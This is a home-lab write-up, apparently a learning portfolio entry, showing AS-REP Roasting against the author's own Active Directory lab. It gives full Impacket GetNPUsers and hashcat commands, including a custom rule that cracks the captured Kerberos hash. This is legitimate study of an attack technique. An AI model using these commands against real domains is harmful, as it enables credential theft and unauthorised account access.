


# Phase 4 — Attacks
---
## Attack 3 — AS-REP Roasting
**MITRE ATT&CK:** T1558.004 — Steal or Forge Kerberos Tickets: AS-REP Roasting

**Goal:** Capture an offline-crackable Kerberos hash from an account with preauthentication disabled, without using any domain credentials.

**Tools:** Impacket (GetNPUsers), Hashcat

**What I did:**
1. Checked the DC for accounts with preauthentication disabled — none existed by default
2. Disabled preauthentication on `pparker` to simulate a misconfigured account
3. Ran GetNPUsers from Kali to capture the AS-REP hash
4. Attempted to crack with rockyou.txt — nothing cracked
5. Built a custom hashcat rule to mutate a base word and cracked the password (granted, it was easier for me to create the rule as I already knew the password)

**Commands:**
```powershell
# DC — disable preauthentication on pparker
Set-ADAccountControl -Identity pparker -DoesNotRequirePreAuth $true
```

```bash
# Kali — create users file and run the attack
echo -e "pparker\njbond\nsconnor" > /home/kali/users.txt
impacket-GetNPUsers lab.local/ -usersfile /home/kali/users.txt -dc-ip 192.168.10.10 -no-pass -format hashcat
```

```bash
# Save hash and attempt rockyou first
echo '$krb5asrep$23$pparker@LAB.LOCAL:...' > /home/kali/asrep.hash
hashcat -m 18200 /home/kali/asrep.hash /usr/share/wordlists/rockyou.txt
```
No results (who would've thought)

```bash
# rockyou failed — built a custom rule instead
echo "spiderman" > /home/kali/base.txt
echo 'A0"rocks" $1 $2 $!' > /home/kali/custom.rule
hashcat -m 18200 /home/kali/asrep.hash /home/kali/base.txt -r /home/kali/custom.rule
```

**What I found:**
The DC returned an AS-REP hash for `pparker` since no credentials were required to make the request. rockyou.txt did not contain the password. Rather than weaken the password to force a crack, a custom rule was written that appended characters one at a time to the base word `spiderman`. Each `$` in a hashcat rule appends one character to the candidate word, so the rule built the full password from a simpler starting point. The hash cracked and `pparker`'s password was recovered.

### Screenshots

*GetNPUsers returning the AS-REP hash for pparker*


*hashcat --show confirming the password was recovered via custom rule (very end of the ss)*

---

**What I learned:** Wordlist attacks miss passwords that follow predictable patterns but use uncommon base words. Rule-based attacks help by generating variations from simpler inputs rather than relying on the password already existing in a list. Knowing why rockyou failed matters more than just swapping to a bigger wordlist. (which may or may not help us at all at the end of the day)

**Skills it proves:** Kerberos authentication internals, credential-free offensive techniques, offline hash cracking, custom hashcat rule writing

---
